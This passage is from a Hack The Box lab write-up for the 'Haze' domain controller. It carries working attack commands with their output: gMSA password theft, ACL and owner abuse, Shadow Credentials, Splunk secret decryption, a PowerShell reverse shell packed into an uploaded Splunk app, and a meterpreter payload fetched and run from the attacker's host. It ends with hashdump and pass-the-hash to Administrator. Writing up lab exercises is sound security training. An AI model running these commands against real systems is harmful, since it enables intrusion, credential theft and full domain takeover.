- [https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-ada2/c651f64d-5e92-4d12-9011-e6811ed306aa](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-ada2/c651f64d-5e92-4d12-9011-e6811ed306aa)

```powershell
*Evil-WinRM* PS C:\> Set-ADServiceAccount -Identity 'Haze-IT-Backup' -PrincipalsAllowedToRetrieveManagedPassword "mark.adams"
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ netexec ldap 10.129.135.234 -u 'mark.adams' -p 'Ld@p_Auth_Sp1unk@2k24' --gmsa
SMB         10.129.135.234  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
LDAPS       10.129.135.234  636    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 
LDAPS       10.129.135.234  636    DC01             [*] Getting GMSA Passwords
LDAPS       10.129.135.234  636    DC01             Account: Haze-IT-Backup$      NTLM: 735c02c6b2dc54c3c8c6891f55279ebc
```

| NTLM Hash                        |
| -------------------------------- |
| 735c02c6b2dc54c3c8c6891f55279ebc |

## Lateral Movement to SUPPORT_SERVICES Group
### Access Control List (ACL) & Access Control Entry (ACE) Abuse

Now since we had the `NTLM Hash` of `Haze-IT-Backup$` we were able to `move laterally` to the `SUPPORT_SERVICES` group by abusing the `Access Control List (ACL)` and `Access Control Entry (ACE)` of `GenericAll`, `WriteOwner` and `Owns` of `Haze-IT-Backup$`.


Mr. `mk0` came in clutch with two quick commands to execute these changes.

```shell
┌──(kali㉿kali)-[~]
└─$ impacket-owneredit -action write -target 'support_services' -new-owner 'haze-it-backup$' haze.htb/'haze-it-backup$' -hashes ':735c02c6b2dc54c3c8c6891f55279ebc' -dc-ip haze.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Current owner information below
[*] - SID: S-1-5-21-323145914-28650650-2368316563-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=haze,DC=htb
[*] OwnerSid modified successfully!
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ impacket-dacledit -action write -rights FullControl -target 'support_services' -principal 'haze-it-backup$' haze.htb/'haze-it-backup$' -hashes ':735c02c6b2dc54c3c8c6891f55279ebc' -dc-ip haze.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] DACL backed up to dacledit-20250329-225723.bak
[*] DACL modified successfully!
```

## Pivoting to Edward.Martin

Now since we were `owner` of the `SUPPORT_SERVICES` group we created a new `dump` of the `Active Directory` using `BloodHound` to see if we received any new `permissions` and `capabilities`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ netexec ldap 10.129.135.234 -u 'haze-it-backup$' -H '735c02c6b2dc54c3c8c6891f55279ebc' --bloodhound --dns-tcp --dns-server 10.129.135.234 -c All
SMB         10.129.135.234  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
LDAP        10.129.135.234  389    DC01             [+] haze.htb\haze-it-backup$:735c02c6b2dc54c3c8c6891f55279ebc 
LDAP        10.129.135.234  389    DC01             Resolved collection methods: trusts, psremote, session, dcom, objectprops, container, acl, rdp, localadmin, group
LDAP        10.129.135.234  389    DC01             Done in 00M 07S
LDAP        10.129.135.234  389    DC01             Compressing output into /home/kali/.nxc/logs/DC01_10.129.135.234_2025-03-29_225923_bloodhound.zip
```

Our next step was to use `Shadow Credentials` to `escalate` our `privileges` to `Edward.Martin` from within the `SUPPORT_SERVICES` group which had `AddKeyCredentialLink` set on him.


### Time and Date Synchronization

In order to carry this one out we needed to synchronize our `date` and `time` with the `Domain Controller`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ sudo /etc/init.d/virtualbox-guest-utils stop
[sudo] password for kali: 
Stopping virtualbox-guest-utils (via systemctl): virtualbox-guest-utils.service.
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ sudo systemctl stop systemd-timesyncd
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ sudo net time set -S 10.129.135.234
```

### Shadow Credentials Attack

After the preparation `mk0` came back to execute the `Shadow Credentials` attack an `Edward.Martin`. Therefore we needed to grab a `Kerberos ticket` first and export it within our current session on our local machine.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ impacket-getTGT 'haze.htb/Haze-IT-Backup$' -hashes :735c02c6b2dc54c3c8c6891f55279ebc
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in Haze-IT-Backup$.ccache
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ export KRB5CCNAME=Haze-IT-Backup\$.ccache
```

Then we moved from `Impacket` to `BloodyAD` to first change the `owner` `Haze-IT-Backups$`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ bloodyAD -d haze.htb -u 'Haze-IT-Backup$' -k --host dc01.haze.htb --dc-ip 10.129.135.234 set owner "CN=Support_Services,CN=Users,DC=haze,DC=htb" Haze-IT-Backup$
[+] Old owner S-1-5-21-323145914-28650650-2368316563-512 is now replaced by Haze-IT-Backup$ on CN=Support_Services,CN=Users,DC=haze,DC=htb
```

Then we granted us `GenericAll` permissions.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ bloodyAD -d haze.htb -u 'Haze-IT-Backup$' -k --host dc01.haze.htb --dc-ip 10.129.135.234 add genericAll "CN=Support_Services,CN=Users,DC=haze,DC=htb" "Haze-IT-Backup$"
[+] Haze-IT-Backup$ has now GenericAll on CN=Support_Services,CN=Users,DC=haze,DC=htb
```

In order to add `Mark.Adams` as a `group member` on `SUPPORT_SERVICES`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ bloodyAD -d haze.htb -u 'Haze-IT-Backup$' -k --host dc01.haze.htb --dc-ip 10.129.135.234 add groupMember "CN=Support_Services,CN=Users,DC=haze,DC=htb" 'mark.adams'
[+] mark.adams added to CN=Support_Services,CN=Users,DC=haze,DC=htb
```

As next step we then used the `credentials` of `Mark.Adams` to actually use `Shadow Credentials` on `Edward.Martin`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ bloodyAD -d haze.htb -u mark.adams -p 'Ld@p_Auth_Sp1unk@2k24' --host dc01.haze.htb --dc-ip 10.129.135.234 add shadowCredentials "CN=EDWARD MARTIN,CN=USERS,DC=HAZE,DC=HTB" --path edward-shadow.pem
[+] KeyCredential generated with following sha256 of RSA key: ce58ee744a8101212223f4e6d4ef62b63f8ad2e18b522f0ab467665fc5782070
[+] Saved PEM certificate at path: edward-shadow.pem_cert.pem
[+] Saved PEM private key at path: edward-shadow.pem_priv.pem
A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
Run the following command to obtain a TGT:
python3 PKINITtools/gettgtpkinit.py -cert-pem edward-shadow.pem_cert.pem -key-pem edward-shadow.pem_priv.pem haze.htb/CN=EDWARD MARTIN,CN=USERS,DC=HAZE,DC=HTB edward-shadow.pem.ccache
```

With the provided `.pem` files we created a valid `.pfx` in order to work with `PKINITtools`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ openssl pkcs12 -export \
  -out edward.pfx \
  -inkey edward-shadow.pem_priv.pem \
  -in edward-shadow.pem_cert.pem \
  -passout pass:
```

To make the `PKINITtools` working properly we spun up a `virtual environment` and installed the `requirements` using `requirements.txt`.

```shell
┌──(kali㉿kali)-[~/opt/10_post_exploitation/PKINITtools]
└─$ python3 -m virtualenv venv
created virtual environment CPython3.13.2.final.0-64 in 284ms
  creator CPython3Posix(dest=/home/kali/opt/10_post_exploitation/PKINITtools/venv, clear=False, no_vcs_ignore=False, global=False)
  seeder FromAppData(download=False, pip=bundle, via=copy, app_data_dir=/home/kali/.local/share/virtualenv)
    added seed packages: pip==25.0
  activators BashActivator,CShellActivator,FishActivator,NushellActivator,PowerShellActivator,PythonActivator
```

```shell
┌──(kali㉿kali)-[~/opt/10_post_exploitation/PKINITtools]
└─$ . venv/bin/activate
```

```shell
┌──(venv)─(kali㉿kali)-[~/opt/10_post_exploitation/PKINITtools]
└─$ pip3 install -r requirements.txt
<--- CUT FOR BREVITY --->
```

Then we used the forged `.pfx` file to receive the `AS-REP encryption key`.

```shell
┌──(venv)─(kali㉿kali)-[~/opt/10_post_exploitation/PKINITtools]
└─$ python3 gettgtpkinit.py -cert-pfx /media/sf_cybersecurity/notes/HTB/Machines/Haze/files/edward.pfx -dc-ip 10.129.135.234 'haze.htb/edward.martin' edward.martin.ccache
2025-03-30 08:57:48,420 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-03-30 08:57:48,528 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-03-30 08:57:56,214 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-03-30 08:57:56,214 minikerberos INFO     f4b7f1d9527d7592cb07f1a6ff4fe9e27cb3299af48a0309e716a5cb0372617e
INFO:minikerberos:f4b7f1d9527d7592cb07f1a6ff4fe9e27cb3299af48a0309e716a5cb0372617e
2025-03-30 08:57:56,218 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

Now we exposed the new `.ccache` file to our local session and performed a quick check if we did everything correctly.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ export KRB5CCNAME=edward.martin.ccache
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ netexec ldap 10.129.135.234 -u 'edward.martin' --use-kcache
SMB         10.129.135.234  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
LDAP        10.129.135.234  389    DC01             [+] haze.htb\edward.martin from ccache
```

Then we headed back to `PKINITtools` and used the `AS-REP encryption key` to recover the `NT Hash` of `Edward.Martin` in order to login as him using `Evil-WinRM.

```shell
┌──(venv)─(kali㉿kali)-[~/opt/10_post_exploitation/PKINITtools]
└─$ python3 getnthash.py -key f4b7f1d9527d7592cb07f1a6ff4fe9e27cb3299af48a0309e716a5cb0372617e haze.htb/edward.martin
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
/home/kali/opt/10_post_exploitation/PKINITtools/getnthash.py:144: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/home/kali/opt/10_post_exploitation/PKINITtools/getnthash.py:192: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting ticket to self with PAC
Recovered NT Hash
09e0b3eeb2e7a6b0d419e9ff8f4d91af
```

```shell
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.129.135.234 -u 'edward.martin' -H 09e0b3eeb2e7a6b0d419e9ff8f4d91af
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\edward.martin\Documents>
```

## user.txt

Finally we were able to grab the `user.txt`.

```powershell
*Evil-WinRM* PS C:\Users\edward.martin\Desktop> type user.txt
dd2dcdd9fd45eb603043cf4237e38dcf
```

## Enumeration (Edward.Martin)

For the next step of the box we performed a quick `enumeration` as always but since this was a dead end again, we went back to `BloodHound`.

```powershell
*Evil-WinRM* PS C:\Users\edward.martin\Documents> whoami /all

USER INFORMATION
----------------

User Name          SID
================== ===========================================
haze\edward.martin S-1-5-21-323145914-28650650-2368316563-1105


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                         Attributes
=========================================== ================ =========================================== ==================================================
Everyone                                    Well-known group S-1-1-0                                     Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574                                Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                    Mandatory group, Enabled by default, Enabled group
HAZE\Backup_Reviewers                       Group            S-1-5-21-323145914-28650650-2368316563-1109 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                 Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

Our new user was member of the `BACKUP_REVIEWERS` group.


On the box we found a `Backups` directory on `C:\>` and inside a file called `splunk_backup_2024-08-06.zip`.

```powershell
*Evil-WinRM* PS C:\Backups> dir


    Directory: C:\Backups


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          3/5/2025  12:33 AM                Splunk
```

```powershell
*Evil-WinRM* PS C:\Backups\Splunk> dir


    Directory: C:\Backups\Splunk


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          8/6/2024   3:22 PM       27445566 splunk_backup_2024-08-06.zip
```

We downloaded the file using the `built-in` feature of `Evil-WinRM` to download files.

```powershell
*Evil-WinRM* PS C:\Backups\Splunk> download splunk_backup_2024-08-06.zip
                                        
Info: Downloading C:\Backups\Splunk\splunk_backup_2024-08-06.zip to splunk_backup_2024-08-06.zip
                                        
Info: Download successful!
```

## Investigating the Backup Archive

After we extracted the `zip-archive` we used `grep` to search for `passwords` and found another `hash` and `splunk secret` file.

```shell
┌──(kali㉿kali)-[/media/…/Machines/Haze/files/extracted]
└─$ unzip splunk_backup_2024-08-06.zip
<--- CUT FOR BREVITY --->
```

```shell
┌──(kali㉿kali)-[/media/…/Haze/files/extracted/Splunk]
└─$ grep -iaR password
<--- CUT FOR BREVITY --->
var/run/splunk/confsnapshot/baseline_local/system/local/authentication.conf:bindDNpassword = $1$YDz8WfhoCWmf6aTRkA+QqUI=
<--- CUT FOR BREVITY --->
```

With the `repeated steps` from before we `recovered` another `password`.

```shell
┌──(kali㉿kali)-[/media/…/extracted/Splunk/etc/auth]
└─$ cat splunk.secret 
CgL8i4HvEen3cCYOYZDBkuATi5WQuORBw9g4zp4pv5mpMcMF3sWKtaCWTX8Kc1BK3pb9HR13oJqHpvYLUZ.gIJIuYZCA/YNwbbI4fDkbpGD.8yX/8VPVTG22V5G5rDxO5qNzXSQIz3NBtFE6oPhVLAVOJ0EgCYGjuk.fgspXYUc9F24Q6P/QGB/XP8sLZ2h00FQYRmxaSUTAroHHz8fYIsChsea7GBRaolimfQLD7yWGefscTbuXOMJOrzr/6B
```

```shell
┌──(kali㉿kali)-[/media/…/extracted/Splunk/etc/auth]
└─$ splunksecrets splunk-decrypt -S splunk.secret
Ciphertext: $1$YDz8WfhoCWmf6aTRkA+QqUI=
/home/kali/.local/share/pipx/venvs/splunksecrets/lib/python3.13/site-packages/splunksecrets.py:48: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
  algorithm = algorithms.ARC4(key)
Sp1unkadmin@2k24
```

| Password         |
| ---------------- |
| Sp1unkadmin@2k24 |

## Splunk Enterprise

The newly `recovered password` granted us now access to the `web GUI` of `Splunk Enterprise`.

- [http://haze.htb:8000/en-US/app/launcher/home](http://haze.htb:8000/en-US/app/launcher/home)

| Username | Password         |
| -------- | ---------------- |
| admin    | Sp1unkadmin@2k24 |


## Privilege Escalation to Alexander.Green

Intentionally we moved to the `Apps` section and noticed that we could `upload` our own `app`. After a first own `PoC` we found an `repository` on `GitHub` to achieve exactly the same what we planned to do.

- [https://github.com/0xjpuff/reverse_shell_splunk](https://github.com/0xjpuff/reverse_shell_splunk)

After we `cloned` the `repository` we modified the `run.ps1` to our needs and created the necessary `tarball` in order to `upload` it on the `dashboard`.

```shell
┌──(kali㉿kali)-[/media/…/files/reverse_shell_splunk/reverse_shell_splunk/bin]
└─$ cat run.ps1 
#A simple and small reverse shell. Options and help removed to save space. 
#Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.85',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```shell
┌──(kali㉿kali)-[/media/…/Machines/Haze/files/reverse_shell_splunk]
└─$ tar -czf revshell.tgz reverse_shell_splunk
```

- [http://haze.htb:8000/en-US/manager/appinstall/_upload?breadcrumbs=Settings%7C%2Fmanager%2Fsearch%2F%09Apps%7C%2Fmanager%2Fsearch%2Fapps%2Flocal%3Fmsgid%3D2697690.9519885055428504](http://haze.htb:8000/en-US/manager/appinstall/_upload?breadcrumbs=Settings%7C%2Fmanager%2Fsearch%2F%09Apps%7C%2Fmanager%2Fsearch%2Fapps%2Flocal%3Fmsgid%3D2697690.9519885055428504)


And after we `successfully uploaded` and `installed` the `revshell.tgz` we instantly received the `callback` and got a session as `Alexander.Green`.

```shell
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.85] from (UNKNOWN) [10.129.135.234] 55275

PS C:\Windows\system32>
```

```powershell
PS C:\Windows\system32> whoami
haze\alexander.green
```

## Privilege Escalation to System

### SeImpersonatePrivilege Abuse

As last step of the box we `abuse` the `privilege` for `SeImpersonatePrivilege` of `Alexander.Green` using `Metasploit`.

```shell
PS C:\Windows\system32> whoami /all

USER INFORMATION
----------------

User Name            SID                                        
==================== ===========================================
haze\alexander.green S-1-5-21-323145914-28650650-2368316563-1106


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                         Attributes                                        
========================================== ================ =========================================== ==================================================
Everyone                                   Well-known group S-1-1-0                                     Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574                                Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                       Well-known group S-1-5-6                                     Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                    Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0                                     Mandatory group, Enabled by default, Enabled group
HAZE\Splunk_Admins                         Group            S-1-5-21-323145914-28650650-2368316563-1108 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288                                                                                  


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

To do so we created the `payload` for `meterpreter` and hosted it locally using a `Python Web Server`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/serve]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.85 LPORT=6669 -f exe -o asdf.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: asdf.exe
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/serve]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Then we prepared `Metasploit` to catch the `callback`.

```shell
┌──(kali㉿kali)-[~]
└─$ msfconsole
                                                  

# cowsay++
 ____________
< metasploit >
 ------------
       \   ,__,
        \  (oo)____
           (__)    )\
              ||--|| *


       =[ metasploit v6.4.50-dev                          ]
+ -- --=[ 2490 exploits - 1281 auxiliary - 431 post       ]
+ -- --=[ 1466 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/
 
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.85
LHOST => 10.10.14.85
msf6 exploit(multi/handler) > set LPORT 6669
LPORT => 6669
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.85:6669
```

After that we `transfered` our `file` to the box and executed it.

```powershell
PS C:\temp> iwr 10.10.14.85/asdf.exe -o asdf.exe
```

```powershell
PS C:\temp> .\asdf.exe
```

After receiving the `meterpreter session` we used `getsystem` to abuse `SeImpersonatePrivilege` and to `dump` the `hashes` using `hashdump`.

```console
[*] Sending stage (203846 bytes) to 10.129.135.234
[*] Meterpreter session 1 opened (10.10.14.85:6669 -> 10.129.135.234:55606) at 2025-03-30 10:28:09 +0200

meterpreter >
```

```console
meterpreter > getsystem
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).
```

```console
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:06dc954d32cb91ac2831d67e3e12027f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:937e28202a6cdfcc556d1b677bcbe82c:::
paul.taylor:1103:aad3b435b51404eeaad3b435b51404ee:e90878e2fb0a21a11859ff60f1119fb4:::
mark.adams:1104:aad3b435b51404eeaad3b435b51404ee:e90878e2fb0a21a11859ff60f1119fb4:::
edward.martin:1105:aad3b435b51404eeaad3b435b51404ee:09e0b3eeb2e7a6b0d419e9ff8f4d91af:::
alexander.green:1106:aad3b435b51404eeaad3b435b51404ee:6b8caa0cd4f8cb8ddf2b5677a24cc510:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:9dcbc33adec3bdc8b2334060002ce1b4:::
Haze-IT-Backup$:1111:aad3b435b51404eeaad3b435b51404ee:735c02c6b2dc54c3c8c6891f55279ebc:::
```

With the `hash` of `Administrator` we performed `Pass-The-Hash` to login and to grab the `root.txt`.

```shell
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.129.135.234 -u Administrator -H 06dc954d32cb91ac2831d67e3e12027f
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

## root.txt

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
95ab497f4e1eda4d15ce135674d3711a
```

## Outro

Nice TEAMWORK!! Very well done!!

